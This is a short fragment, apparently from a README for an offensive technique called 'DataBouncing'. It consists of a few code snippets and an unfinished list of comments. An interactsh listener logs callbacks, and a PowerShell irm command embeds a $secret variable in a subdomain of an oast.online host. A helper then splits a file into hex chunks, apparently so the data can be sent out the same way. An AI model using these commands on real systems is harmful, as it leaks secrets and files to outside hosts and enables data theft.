 # DataBouncing

```
interactsh-client -v -o Logs.txt
```

`irm "xregex.$secret.cln0jgqilvdjjg1nk8d0ksttdzkd7waij.oast.online"`

`$hex = Convert-FileToHexChunks -FilePath .\AST-Test.txt`

```
foreach ($i in $x.PSObject.Properties) {echo $i.Value}
```

```
# 1. Convert File to hex 
# 2. segment with numbers 
# 3. 
```
